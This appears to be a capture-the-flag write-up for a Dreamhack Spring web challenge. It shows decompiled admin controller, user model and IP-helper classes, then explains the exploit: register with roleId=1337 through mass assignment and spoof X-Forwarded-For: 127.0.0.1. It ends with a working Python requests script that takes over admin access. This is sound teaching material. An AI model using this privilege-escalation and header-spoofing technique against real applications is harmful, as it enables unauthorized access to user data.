


# solution

First of all, thank to docker for helping me so much to finish this challenge.
The source code of this challenge is so much, for the sake of saving time, i just summarize how to solve this chal.

Download the source code, then use docker to run it in local.

```
docker build -t dreampring .
docker run -it -p  8080:8080 dreampring
```

You can use my CLI to build and run challenge. Then you can watch the account that you create (run command in each)
<br>

I find that the vuln is Mass Asignment Vuln. Just know that when i searching things related to this challenge of if you know that from source code please tell me know.

Lets focus on some .class file. Im a lazy guy so i use online platform to decompiler .class file.

<br>

```
Admincontroller.class

package com.dreamhack.chall.Controllers;

import com.dreamhack.chall.Models.UserModel;
import com.dreamhack.chall.Services.AdminService;
import java.util.regex.Matcher;
import java.util.regex.Pattern;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpSession;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.servlet.mvc.support.RedirectAttributes;

@Controller
public class AdminController {
   @Autowired
   private HttpServletRequest request;

   @RequestMapping({"/admin", "/admin/"})
   public String preAdminHandler(RedirectAttributes redir) {
      HttpSession session = this.request.getSession();
      Integer roleid = (Integer)session.getAttribute("roleid");
      if (roleid != null && roleid == 1337) {
         return "admin";
      } else {
         redir.addFlashAttribute("error", "You are not admin!");
         return "redirect:/";
      }
   }

   @RequestMapping({"/admin/viewUser.do"})
   public String preViewUserHandler(RedirectAttributes redir) {
      HttpSession session = this.request.getSession();
      Integer roleid = (Integer)session.getAttribute("roleid");
      if (roleid != null && roleid == 1337) {
         return "admin_view";
      } else {
         redir.addFlashAttribute("error", "You are not admin!");
         return "redirect:/";
      }
   }

   @RequestMapping({"/admin/viewUser_action.do"})
   public String ViewUserHandler(@RequestParam(value = "username",defaultValue = "") String username, RedirectAttributes redir) {
      HttpSession session = this.request.getSession();
      Integer roleid = (Integer)session.getAttribute("roleid");
      if (roleid != null && roleid == 1337) {
         String regex = "^[a-zA-Z0-9]([._-](?![._-])|[a-zA-Z0-9]){3,18}[a-zA-Z0-9]$";
         Pattern pattern = Pattern.compile(regex);
         Matcher matcher = pattern.matcher(username);
         if (!matcher.matches()) {
            redir.addFlashAttribute("error", "Align Username with the regex of " + regex);
            return "redirect:/admin/viewUser.do";
         } else {
            UserModel result = AdminService.viewUser(username);
            if (result == null) {
               redir.addFlashAttribute("error", "User not found!");
               return "redirect:/admin/viewUser.do";
            } else {
               redir.addFlashAttribute("user", result.getUsername());
               redir.addFlashAttribute("email", result.getEmail());
               redir.addFlashAttribute("intro", result.getIntro());
               return "redirect:/admin/viewUser.do";
            }
         }
      } else {
         redir.addFlashAttribute("error", "You are not admin!");
         return "redirect:/";
      }
   }
}

```

```
Usermodel.class

  package com.dreamhack.chall.Models;

import org.springframework.format.annotation.DateTimeFormat;

public class UserModel {
   private String username;
   private String password;
   private String email;
   private String intro;
   private Integer roleid;
   private String ip;
   @DateTimeFormat(
      pattern = "yyyy/MM/dd HH:mm:ss"
   )
   private String lastLogin;

   public UserModel() {
   }

   public UserModel(String username, String password, String email, String intro, Integer roleid, String ip, String lastLogin) {
      this.setUsername(username);
      this.setPassword(password);
      this.setEmail(email);
      this.setIntro(intro);
      this.setRoleId(roleid);
      this.setIP(ip);
      this.setLastLogin(lastLogin);
   }

   public String getUsername() {
      return this.username;
   }

   public String getPassword() {
      return this.password;
   }

   public String getEmail() {
      return this.email;
   }

   public String getIntro() {
      return this.intro;
   }

   public Integer getRoleId() {
      return this.roleid;
   }

   public String getIP() {
      return this.ip;
   }

   public String getLastLogin() {
      return this.lastLogin;
   }

   public void setUsername(String username) {
      this.username = username;
   }

   public void setPassword(String password) {
      this.password = password;
   }

   public void setEmail(String email) {
      this.email = email;
   }

   public void setIntro(String intro) {
      this.intro = intro;
   }

   public void setRoleId(Integer roleid) {
      this.roleid = roleid;
   }

   public void setIP(String ip) {
      this.ip = ip;
   }

   public void setLastLogin(String lastLogin) {
      this.lastLogin = lastLogin;
   }
}
```

```
HttpUtils.class

 package com.dreamhack.chall.Utils;

import javax.servlet.http.HttpServletRequest;

public class HttpUtil {
   private static final String[] IP_HEADERS = new String[]{"X-Forwarded-For", "Proxy-Client-IP", "WL-Proxy-Client-IP", "HTTP_X_FORWARDED_FOR", "HTTP_X_FORWARDED", "HTTP_X_CLUSTER_CLIENT_IP", "HTTP_CLIENT_IP", "HTTP_FORWARDED_FOR", "HTTP_FORWARDED", "HTTP_VIA", "REMOTE_ADDR"};

   private HttpUtil() {
   }

   public static String getRequestIP(HttpServletRequest request) {
      String[] var1 = IP_HEADERS;
      int var2 = var1.length;

      for(int var3 = 0; var3 < var2; ++var3) {
         String header = var1[var3];
         String value = request.getHeader(header);
         if (value != null && !value.isEmpty()) {
            String[] parts = value.split("\\s*,\\s*");
            return parts[0];
         }
      }

      return request.getRemoteAddr();
   }
}
```

As you can see in the image above. The admin's user have roleId=1337 and own ip
=127.0.0.1, i guess that cause i saw on account.json and when i sign up with roleId=1337 i cant go to **/admin** url . I cant reverse cookies. Though i sign up with ip field is still cant access. Hmm so i guess we need to append X-Forwarded-For: 127.0.0.1. And i this can tamper the user'ip and also http.getIp (i make this write up in hurry so maybe i call some names wrong, plz forgive me).

Bonus: if you feel confused, look at the image source code, we need 3 conditions to access admin routes, but in somehow we dont really need to create an account with ip field, still get the flag (i said that cause i have experimented a bit)

```
1. First: roleid = 1337 can be bypassed by adding another field during registration
2. Second: Use header "x-forwarded-for": "127.0.0.1" to bypass this check
```

```
import requests


# Base URL and headers
BASE_URL = "http://host3.dreamhack.games:11224"
headers = {"X-Forwarded-For": "127.0.0.1"}

# Data for registration and login
register_data = {
    "username": "test9",
    "password": "trypass123",
    "email": "test@test.ca",
    "intro": "123",
    "roleId": "1337",
}

login_data = {
    "username": "test9",
    "password": "trypass123"
}

# Initialize a session
session = requests.Session()

# Step 1: Register a new user
res1 = session.post(BASE_URL + '/signup_action.do', headers=headers, data=register_data)
print("[+] Registration Response:")
print(res1.text)

# Step 2: Log in with the registered user
res2 = session.post(BASE_URL + '/signin_action.do', headers=headers, data=login_data)
print("[+] Login Response:")
print(res2.text)

# Step 3: Attempt to access admin data
res3 = session.get(BASE_URL + '/admin/viewUser_action.do?username=admin', headers=headers)
print("[+] Admin Access Response:")

print(res3.text)
```

I dont know if this script work with you, but if it not just add ip:127.0.0.1 in my script and try again.
